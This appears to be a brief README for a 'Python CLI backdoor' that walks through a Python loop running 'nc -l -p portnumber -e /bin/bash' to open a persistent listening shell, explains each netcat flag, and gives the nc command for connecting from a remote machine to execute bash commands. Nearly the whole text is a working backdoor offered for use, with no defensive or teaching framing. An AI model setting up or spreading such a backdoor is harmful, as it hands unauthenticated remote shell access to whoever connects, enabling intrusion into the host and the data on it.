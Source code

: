 # Python_CLI_Backdoor

// This is to create persistant CLI backdoor w/ python

```ruby
python3
>>> import os
>>> while True:
...  os.system("nc -l -p portnumber -e /bin/bash")
```
- import os essentially imports bash commands to allow us to execute within python code
-  os.system specifies the bash commands being executed
-  nc : opens tcp connections
-  -l :listen for incoming connections, creating a server
-  -p :specifies what port we will occupy w/ our server
-  -e :allows us to execute commands within /bin/bash

To access this server from a remote system 
```ruby
nc ip-address portnumber
```
Once you are in you can execute bash commands from remote host to be executed on server
